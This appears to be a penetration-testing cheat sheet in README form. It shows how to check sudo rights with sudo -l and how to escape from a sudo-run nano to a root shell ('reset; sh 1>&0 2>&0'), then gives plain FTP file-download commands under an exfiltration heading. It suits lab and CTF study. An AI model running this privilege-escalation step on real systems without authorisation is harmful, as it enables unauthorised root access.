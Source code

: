 

# Privilege Escalation Commands



### Checking sudo commands that do not require password
`sudo -l`

Example:
![image](https://user-images.githubusercontent.com/41026969/92505030-76b12080-f1d1-11ea-96c3-c1a098649f32.png)

In this example, you can see the user can run the command `sudo /bin/nano /opt/priv` as sudo without supplying a password.

Nano can spawn a shell, and since it's running under sudo, it will spawn a shell as sudo [source here](https://gtfobins.github.io/gtfobins/nano/#shell).

```
nano
^R^X
reset; sh 1>&0 2>&0
```
<p align="center">
  <img src="https://user-images.githubusercontent.com/41026969/89838415-2cd50c00-db39-11ea-824b-8ef86b869974.png" />
</p>



# Exfiltration and File Transferring Commands



### Downloading files from FTP
##### Note: it's important to distinguish if you need to utilize FTP's ASCII mode or Binary mode, examples of file types that should be used for each mode is listed below. When initially connected to FTP, ASCII mode is the default mode.

`get "<file name>"`

Example: `get "Access Control.zip"`

To change mode, simply type `binary` in the FTP shell. So if you wanted to get a file in binary mode:
* `> binary`
* `> get "backup.mdb"`

##### Examples of file types to use ASCII Mode
* .txt
* .asp
* .html
* .php
* (Generally text-based files, such as source code, web pages, etc.)
